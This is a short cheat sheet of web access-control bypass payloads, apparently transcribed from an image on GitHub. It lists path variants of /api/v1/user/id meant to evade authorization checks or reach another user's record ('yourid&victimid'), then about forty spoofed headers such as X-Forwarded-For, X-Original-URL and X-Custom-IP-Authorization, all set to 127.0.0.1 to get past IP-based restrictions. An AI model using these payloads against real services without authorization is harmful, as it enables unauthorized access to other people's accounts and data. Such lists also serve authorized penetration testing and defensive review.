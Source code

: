# tricks on /api/v1/user/id
/api/v1/user/id.json\
/api/v1/user/id?\
/api/v1/us%65r/id/
/api/v1/user/id/\
/api/v2/user/id\
/api/v1/user/id&accountdetail\
/api/v1/user/yourid&victimid\
X-Original-URL: /api/v1/user/id/\

# headers
Base-Url: 127.0.0.1\
Client-IP: 127.0.0.1\
Http-Url: 127.0.0.1\
Proxy-Host: 127.0.0.1\
Proxy-Url: 127.0.0.1\
Real-Ip: 127.0.0.1\
Redirect: 127.0.0.1\
Referer: 127.0.0.1\
Referrer: 127.0.0.1\
Refferer: 127.0.0.1\
Request-Uri: 127.0.0.1\
Uri: 127.0.0.1\
Url: 127.0.0.1\
X-Client-IP: 127.0.0.1\
X-Custom-IP-Authorization: 127.0.0.1\
X-Forward-For: 127.0.0.1\
X-Forwarded-By: 127.0.0.1\
X-Forwarded-For-Original: 127.0.0.1\
X-Forwarded-For: 127.0.0.1\
X-Forwarded-Host: 127.0.0.1\
X-Forwarded-Port: 443\
X-Forwarded-Port: 4443\
X-Forwarded-Port: 80\
X-Forwarded-Port: 8080\
X-Forwarded-Port: 8443\
X-Forwarded-Scheme: http\
X-Forwarded-Scheme: https\
X-Forwarded-Server: 127.0.0.1\
X-Forwarded: 127.0.0.1\
X-Forwarder-For: 127.0.0.1\
X-Host: 127.0.0.1\
X-Http-Destinationurl: 127.0.0.1\
X-Http-Host-Override: 127.0.0.1\
X-Original-Remote-Addr: 127.0.0.1\
X-Original-Url: 127.0.0.1\
X-Originating-IP: 127.0.0.1\
X-Proxy-Url: 127.0.0.1\
X-Real-Ip: 127.0.0.1\
X-Remote-Addr: 127.0.0.1\
X-Remote-IP: 127.0.0.1\
X-Rewrite-Url: 127.0.0.1\
X-True-IP: 127.0.0.1
